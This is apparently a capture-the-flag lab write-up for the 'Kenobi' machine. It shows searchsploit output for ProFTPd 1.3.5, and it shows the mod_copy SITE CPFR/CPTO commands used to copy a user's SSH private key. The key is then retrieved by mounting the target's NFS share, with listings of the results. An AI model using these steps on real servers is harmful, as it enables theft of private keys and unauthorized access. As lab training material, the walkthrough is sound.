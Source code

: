 - searchsploit proftpd 1.3.5

'''
ProFTPd 1.3.5 - 'mod_copy' Command Execution  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                     | linux/remote/36742.txt
'''

- nc $IP 21

ProFTPD > help

'''
214 Direct comments to root@kenobi
'''

ProFTPD > SITE CPFR /home/kenobi/.ssh/id_rsa
ProFTPD > SITE CPTO /var/tmp/id_rsa
	//copied id_rsa to /var

---Getting kenobi's id_rsa on Attacker---

- mkdir /mnt/kenobiNFS
- sudo mount $IP:/var /mnt/kenobiNFS
- ls -la /mnt/kenobiNFS

'''
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Jul 28 20:26 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root lxd   4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Jul 28 20:24 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
'''

- ls -la /mnt/kenobiNFS/tmp/id_rsa

'''
drwxrwxrwt  6 root   root   4096 Jul 28 20:24 .
drwxr-xr-x 14 root   root   4096 Sep  4  2019 ..
-rw-r--r--  1 ubuntu ubuntu 1675 Jul 28 20:24 id_rsa
drwx------  3 root   root   4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------  3 root   root   4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------  3 root   root   4096 Jul 28 19:44 systemd-private-7d664ff888054bd68c221853288ac684-systemd-timesyncd.service-0n7DLl
drwx------  3 root   root   4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
'''

